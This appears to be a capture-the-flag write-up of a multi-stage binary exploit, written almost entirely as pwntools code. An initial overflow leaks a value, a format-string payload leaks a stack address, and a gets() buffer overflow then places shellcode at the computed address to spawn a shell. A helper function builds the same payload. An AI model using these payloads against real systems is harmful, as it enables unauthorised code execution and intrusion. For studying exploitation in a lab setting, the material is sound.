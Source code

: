 ### Stages

#### Stage 1: Number Guessing
```python
# Initial overflow to leak the number
payload1 = 64 * b'\x01'
p.sendlineafter(b'How shall we call you?', payload1)
digit = ord(p.recvn(1))
```

#### Stage 2: Format String Leak
```python
# Vulnerable printf(name) without format specifier
format_payload = f"%{1}$p".encode()
p.sendlineafter(b"what's your name again?", format_payload)
leaked_addr = int(re.search(rb'0x[0-9a-fA-F]+', p.recv()).group(0), 16)
```

#### Stage 3: Address Calculation
```python
# Calculate shellcode injection address
shellcode_addr = leaked_addr + 0x52 + 8
```

#### Stage 4: Buffer Overflow + Custom Shellcode
```python
# Vulnerable gets() without bounds checking
shellcode = asm(shellcraft.sh())
payload = b'A' * 72 + p64(shellcode_addr) + shellcode
p.sendline(payload)
```

### Implementation
```python
def format_string_leak_and_exploit(self):
    if not self.target:
        return None
    
    # Phase 1: Stack address leak
    format_payload = f"%{1}$p".encode()
    self.target.sendlineafter(b"name", format_payload)
    
    recv_data = self.target.recv()
    match = re.search(rb'0x[0-9a-fA-F]+', recv_data)
    
    if match:
        leaked_addr = int(match.group(0), 16)
        shellcode_addr = leaked_addr + 0x52 + 8
        shellcode = self.generate_custom_shellcode()
        
        payload = b'A' * 72 + p64(shellcode_addr) + shellcode
        return payload
```

---